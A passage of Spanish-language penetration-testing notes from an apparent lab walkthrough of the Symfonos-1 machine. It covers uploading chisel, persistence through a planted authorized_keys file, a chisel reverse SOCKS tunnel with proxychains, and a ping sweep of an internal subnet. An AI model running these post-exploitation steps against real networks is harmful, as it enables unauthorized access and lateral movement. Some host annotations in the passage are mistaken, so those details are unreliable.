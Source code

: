 ```python
scp chisel root@ip:/dev/shm
```
`Nota: este comando es posible ya que hemos logrado persistencia en la maquian victima enviando nuestra authorized_kys para lograr una conexión via ssh. de lo contrario podemos montar un servidor en python y descargarlo con un wget`

![[Pasted image 20240618171950.png]]

### Tunneling And Pivoting
iniciamos un servidor en chisel escuchando por el puerto 8000

```python
	./chisel server --reverse -p 8000

	./chisel client 10.0.2.4:8000 R:socks
```

![[Pasted image 20240619124748.png]]

### proxychains
nos aseguramos que el archivo de configuración del proxychains tenga habilitada la opción `dynamic_chain` que la vamos a necesitar mas adelanta

```python
nano /etc/proxychains4.conf
```

![[Pasted image 20240618173459.png]]

### Reconocimiento de la segunda red
con un bucle `for` vamos hacer un reconocimiento de todas las `ips` que estén activas en el segundo segmento de red

```python
Synfonos-1 ip1: 10.0.2.5

Symfonos-1 ip2:10.2.2.6

	for i in {1..256} ;do (ping -c 1 10.2.2.$i | grep "bytes from" &) ;done
```

lanzamos este bucle en el segundo segmento (ip2) para reconocer las `ips` que estén activas en este segundo rango de `ips` 

```python
64 bytes from 10.2.2.1: icmp_seq=1 ttl=255 time=1.28 ms ||||| LOOPBACK
64 bytes from 10.2.2.2: icmp_seq=1 ttl=128 time=2.35 ms ||||| BROADCAST
64 bytes from 10.2.2.3: icmp_seq=1 ttl=255 time=0.283 ms||||| GET-WEY
64 bytes from 10.2.2.6: icmp_seq=1 ttl=64 time=0.013 ms Symfonos-1 ip:1
64 bytes from 10.2.2.7: icmp_seq=1 ttl=64 time=0.413 ms Symfonos-1 ip:2
```

![[Pasted image 20240618175115.png]]
